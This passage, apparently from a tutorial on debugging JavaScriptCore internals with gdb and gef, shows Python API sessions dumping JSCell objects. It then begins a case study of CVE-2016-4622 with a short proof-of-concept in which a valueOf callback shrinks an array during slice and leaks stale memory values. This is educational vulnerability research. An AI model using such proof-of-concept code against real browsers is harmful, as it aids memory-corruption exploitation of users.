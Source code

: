 It is also possible to parse ``gdb``'s commands via ``gdb.parse_and_eval()``

```
gef➤  set $obj = ('JSC::JSCell'*) 0x55791e11fe00
>>> print(gdb.parse_and_eval('*$obj'))
{
  static StructureFlags = 0x0, 
  static needsDestruction = 0x0, 
  static TypedArrayStorageType = JSC::NotTypedArray, 
  m_structureID = 0x163, 
  m_indexingType = 0x0, 
  m_type = JSC::FinalObjectType, 
  m_flags = 0x0, 
  m_cellState = JSC::CellState::NewWhite
}
```

Obviously is possible to set convenience variables also using the python API

```
>>> obj = addr.cast(jsc_cell_type_pointer)
>>> gdb.set_convenience_variable('miao', obj)
>>> print(gdb.parse_and_eval('*$miao'))
{
  static StructureFlags = 0x0, 
  static needsDestruction = 0x0, 
  static TypedArrayStorageType = JSC::NotTypedArray, 
  m_structureID = 0x163, 
  m_indexingType = 0x0, 
  m_type = JSC::FinalObjectType, 
  m_flags = 0x0, 
  m_cellState = JSC::CellState::NewWhite
}
```

## Use gef with JSC

TODO

## Case study: CVE-2016-4622

Now that we have a deeper understanding of the ``JSC`` internals should be easier understand
what saelo was talking about.

To automatize the analysis you can use the following ``gdb``'s [script]({{ site.baseurl }}/public/code/javascriptcore/bp.gdb)
that sets breakpoints in important points to see what the vulnerability is actually "doing".

To summarize the PoC we have the following lines

```
>>> obj = {a: 1, b:2}
[object Object]
>>> a = [];for (var i = 0; i < 100; i++)a.push(i + 13.37);
>>> var b = a.slice(0, {valueOf: function() { a.length = 0;c=[obj];return 4;}});
>>> b
13.37,14.37,8.4879831644e-314,4.6843036111784e-310
```
